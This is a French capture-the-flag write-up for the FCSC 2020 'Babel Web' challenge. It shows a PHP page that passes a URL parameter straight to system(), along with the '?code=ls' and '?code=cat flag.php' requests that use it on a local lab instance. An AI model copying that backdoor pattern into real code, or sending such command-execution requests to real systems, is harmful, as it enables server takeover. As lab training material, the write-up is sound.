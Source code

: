 # [Babel Web](https://hackropole.fr/fr/challenges/web/fcsc2020-web-babel-web/))

## Énoncé

On vous demande d’auditer ce site en cours de construction à la recherche d’un flag.

## Solution

On commence par se rendre sur le site après avoir lancé le docker.

On tombe sur une page ne comportant qu'un peu de texte.

On va donc regarder tout de suite le code source de la page.

```html
<html>
	<head>
		<title>Bienvenue à Babel Web!</title>
	</head>	
	<body>
		<h1>Bienvenue à Babel Web!</h1>
		La page est en cours de développement, merci de revenir plus tard.
		<!-- <a href="?source=1">source</a> -->
	</body>
</html>
```

On remarque un commentaire avec une route ```?source=1```.

On va donc se rendre sur cette route.

On tombe sur le code source de la page. Il s'agit d'un code PHP.

```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```

Je ne connais pas du tout PHP, mais je vois que la route ```?code=``` existe et fait un appel à la fonction ```system()```. Par mimétisme avec la méthode python ```os.system()```, je me dis que cette fonction doit exécuter une commande système.

On tente donc de passer une commande système en paramètre de la route ```?code=```.

```bash
http://localhost:8000/?code=ls
```

On obtient le résultat suivant :

```html
flag.php
index.php
```

On voit qu'il y a un fichier ```flag.php```. On va donc essayer de lire son contenu.

```bash
http://localhost:8000/?code=cat%20flag.php
```

On obtient une page vide...

Mais en regardant le code source de la page, on voit le flag. (Petit piège pour les gens qui vont vite... Sympa je me suis fait avoir aussi...)


## Flag

Le flag est dans le code source de la page ```flag.php``` que l'on obtient avec la requête ```http://localhost:8000/?code=cat%20flag.php```.